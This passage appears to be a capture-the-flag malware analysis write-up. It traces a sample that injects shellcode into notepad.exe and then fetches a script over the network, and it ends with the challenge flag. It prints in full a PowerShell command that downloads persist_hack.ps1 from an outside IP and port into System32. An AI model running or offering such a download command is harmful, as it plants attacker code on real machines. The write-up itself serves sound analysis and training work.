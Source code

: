 after injecting the shellcode into the remote process `notepad.exe` the malware tries to establish an internet connection with the "Mozilla/5.0" user agent using the windows api function `InternetOpenW`. If the connection cannot be established, the function returns `-1` to signal an error.

[![image.png](https://i.postimg.cc/J05bQ8P1/image.png)](https://postimg.cc/xNqJ0Ww7)

and after this it checks the result of calling a function `sub_140002D88` with a `powershell command` as argument

[![image.png](https://i.postimg.cc/TYSPHSFG/image.png)](https://postimg.cc/RN79WPvb)

first let's view the full powershell command by double clicking on the arguement `aPowershellComm` 
[![image.png](https://i.postimg.cc/rmr6sngG/image.png)](https://postimg.cc/xJnpFPwq)

and if we copy its part and put them together we will get this 

```powershell
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://165.232.88.151:9090/persist_hack.ps1', 'C:\Windows\System32\persist_hack.ps1')"
```

which is a powershell command to download a file called `persist_hack.ps1` from the ip `165.232.88.151` and port `9090` and the outfile will be located in this path `C:\Windows\System32\persist_hack.ps1`

and now we need to know what this function `sub_140002D88` do, let's double click on it to jump to its logic, the code is hard to understand but we can some key instructions like the instruction below that spawns a cmd.exe process and passes the v8 which is an array that holds the powershell command so maybe this function is executing the powershell command on the system

[![image.png](https://i.postimg.cc/XYjkvrxQ/image.png)](https://postimg.cc/BXzKYQrK)

let's ask chatgpt, and it says the same thing

[![image.png](https://i.postimg.cc/zBt9dmv1/image.png)](https://postimg.cc/qhKbR52m)

so we can be sure that the attacker tries to download the file `persist_hack.ps1` from the remote server `165.232.88.151:9090`

## Flag : 

```
DEFENSYS{165.232.88.151:9090_persist_hack.ps1}
```
